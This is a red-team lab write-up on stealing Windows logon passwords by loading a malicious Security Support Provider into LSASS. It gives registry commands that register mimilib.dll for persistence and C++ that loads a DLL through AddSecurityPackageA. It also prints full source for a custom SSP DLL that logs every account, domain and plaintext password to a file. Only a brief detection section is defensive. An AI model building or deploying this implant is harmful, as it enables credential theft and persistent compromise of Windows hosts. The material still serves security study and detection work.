

# Intercepting Logon Credentials via Custom Security Support Provider and Authentication Packages

This technique abuses Windows Security Support Provider \(SSP\) and Authentication Packages \(AP\) that come in the form of DLLs that get injected into LSASS.exe process on system boot or dynamically via `AddSecurityPackage` API.

## Loading SSP with Reboot

In this lab, mimikatz Security Support Provider [mimilib.dll](https://github.com/gentilkiwi/mimikatz) will be registered as a Windows Security Package. 

Once the Security Package is registered and the system is rebooted, the mimilib.dll will be loaded into lsass.exe process memory and intercept all logon passwords next time someone logs onto the system or otherwise authenticates, say, via `runas.exe`.

Let's now build the [mimilib.dll](https://github.com/gentilkiwi/mimikatz) and copy it to the target machine's system32 folder:


```cpp
PS C:\> copy mimilib.dll %systemroot%\system32
```


Get a list existing LSA Security Packages:


```bash
PS C:\> reg query hklm\system\currentcontrolset\control\lsa\ /v "Security Packages"

HKEY_LOCAL_MACHINE\system\currentcontrolset\control\lsa
    Security Packages    REG_MULTI_SZ    kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u
```


Add mimilib.dll to the Security Support Provider list \(Security Packages\):


```csharp
PS C:\> reg add "hklm\system\currentcontrolset\control\lsa\" /v "Security Packages" /d "kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u\0mimilib" /t REG_MULTI_SZ /f
```


The below shows `Security Packages` registry value with the `mimilib` added and the `kiwissp.log` file with a redacted password that had been logged during the user logon \(after the system had been rebooted after the Security Package was registered\):



Reboot is required for the new SSP to take effect after it's been added to the Security Packages  list.


## Loading SSP without Reboot

It's possible to load the SSP DLL without modifying the registry:


Below code loads the malicious SSP spotless.dll:

```cpp
#define WIN32_NO_STATUS
#define SECURITY_WIN32
#include <windows.h>
#include <sspi.h>
#include <NTSecAPI.h>
#include <ntsecpkg.h>
#pragma comment(lib, "Secur32.lib")

int main()
{
	SECURITY_PACKAGE_OPTIONS spo = {};
	SECURITY_STATUS ss = AddSecurityPackageA((LPSTR)"c:\\temp\\spotless.dll", &spo);
	return 0;
}
```

Below shows how the new Security Package spotless.dll is loaded by lsass and is effective immediately:




Loading the SSP with this approach does not survive a reboot unlike SSPs that are loaded as registered Security Packages via registry.


## Detection

It may be worth monitoring `Security Packages` value in`hklm\system\currentcontrolset\control\lsa\` for changes. 

Newly added packages should be inspected:


Additionally, mimilib.dll \(same applies to custom spotless.dll\) can be observed in the list of DLLs loaded by lsass.exe, so as a defender, you may want to make a baseline of loaded known good DLLs of the lsass process and monitor it for any new suspicious DLLs:


## Code

Below is the code, originally taken from [mimikatz](https://github.com/gentilkiwi/mimikatz), adapted and refactored to suit this lab, that we can compile as our own Security Support Provider DLL. It intercepts authenticatin details and saves them to a file `c:\temp\logged-pw.txt`:

```cpp
#include "stdafx.h"
#define WIN32_NO_STATUS
#define SECURITY_WIN32
#include <windows.h>
#include <sspi.h>
#include <NTSecAPI.h>
#include <ntsecpkg.h>
#include <iostream>
#pragma comment(lib, "Secur32.lib")

NTSTATUS NTAPI SpInitialize(ULONG_PTR PackageId, PSECPKG_PARAMETERS Parameters, PLSA_SECPKG_FUNCTION_TABLE FunctionTable) { return 0; }
NTSTATUS NTAPI SpShutDown(void) { return 0; }

NTSTATUS NTAPI SpGetInfo(PSecPkgInfoW PackageInfo)
{
	PackageInfo->Name = (SEC_WCHAR *)L"SSSPotless";
	PackageInfo->Comment = (SEC_WCHAR *)L"SSSPotless <o>";
	PackageInfo->fCapabilities = SECPKG_FLAG_ACCEPT_WIN32_NAME | SECPKG_FLAG_CONNECTION;
	PackageInfo->wRPCID = SECPKG_ID_NONE;
	PackageInfo->cbMaxToken = 0;
	PackageInfo->wVersion = 1;
	return 0;
}

NTSTATUS NTAPI SpAcceptCredentials(SECURITY_LOGON_TYPE LogonType, PUNICODE_STRING AccountName, PSECPKG_PRIMARY_CRED PrimaryCredentials, PSECPKG_SUPPLEMENTAL_CRED SupplementalCredentials)
{
	HANDLE outFile = CreateFile(L"c:\\temp\\logged-pw.txt", FILE_GENERIC_WRITE, 0, NULL, OPEN_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
	DWORD bytesWritten = 0;
	
	std::wstring log = L"";
	std::wstring account = AccountName->Buffer;
	std::wstring domain = PrimaryCredentials->DomainName.Buffer;
	std::wstring password = PrimaryCredentials->Password.Buffer;

	log.append(account).append(L"@").append(domain).append(L":").append(password).append(L"\n");
	WriteFile(outFile, log.c_str(), log.length() * 2, &bytesWritten, NULL);
	CloseHandle(outFile);
	return 0;
}

SECPKG_FUNCTION_TABLE SecurityPackageFunctionTable[] = 
{
	{
		NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL,	SpInitialize, SpShutDown, SpGetInfo, SpAcceptCredentials, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL 
	}
};

// SpLsaModeInitialize is called by LSA for each registered Security Package
extern "C" __declspec(dllexport) NTSTATUS NTAPI SpLsaModeInitialize(ULONG LsaVersion, PULONG PackageVersion, PSECPKG_FUNCTION_TABLE *ppTables, PULONG pcTables)
{
	*PackageVersion = SECPKG_INTERFACE_VERSION;
	*ppTables = SecurityPackageFunctionTable;
	*pcTables = 1;
	return 0;
}
```

## References













